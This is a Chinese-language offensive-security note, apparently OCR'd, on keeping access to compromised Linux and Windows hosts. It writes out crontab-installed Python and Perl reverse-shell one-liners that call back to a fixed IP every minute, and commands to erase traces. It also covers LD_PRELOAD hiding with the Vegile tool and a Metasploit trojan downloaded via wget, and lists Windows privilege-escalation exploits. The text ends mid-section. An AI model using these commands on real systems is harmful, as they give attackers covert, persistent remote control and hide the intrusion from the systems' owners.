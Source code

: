 这里借助python，或者perl都可

使用python

echo -e "*/1 * * * * python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.2.1\",7778));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"|crontab -
使用perl

echo -e "*/1 * * * * perl -e 'use Socket;\$i=\"192.168.2.1\";\$p=7778;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'"|crontab -
清除痕迹

如果通过crontab -e 不知道为啥会顶掉上一个

crontab -l			#只看得到一个
crontab -r			#删除所有计划任务
动态加载库
使用export LD_PRELOAD=./xx.so

这时候./xx.so中如果对函数进行了重定义，调用了该函数的程序就会执行重定义的代码

这里使用以下项目

https://github.com/Screetsec/Vegile
准备2个文件

msf的木马
Veglie项目
使用方法将MSF木马和Vegile上传到目标服务器上，把项目目录弄成http服务

python -m SimpleHTTP
目标服务器上

wget http://xxx.xxx.xx.xxx:8000/Vegile.zip
wget http://xxx.xxx.xx.xxx:8000/shell
解压后运行

unzip Vegile.zip
chmod 777 Vegile shell
./Vegile --u shell
清理痕迹

清理起来十分麻烦，因为直接删除进程是删不掉的，因此存在父进程与多个子进程

清理思路挂起父进程，清除所有子进程再删除父进程

windows权限维持
比较常见的windows提取
ms14_058 内核模式驱动程序中的漏洞可能允许远程执行代码
ms16_016 WebDAV本地提权漏洞(CVE-2016-0051)
ms16_032 MS16-032 Secondary Logon Handle 本地提权漏漏洞
计划任务
拿到shell后先修改编码

chcp 65001
设置计划任务，每分钟调用运行一次shell
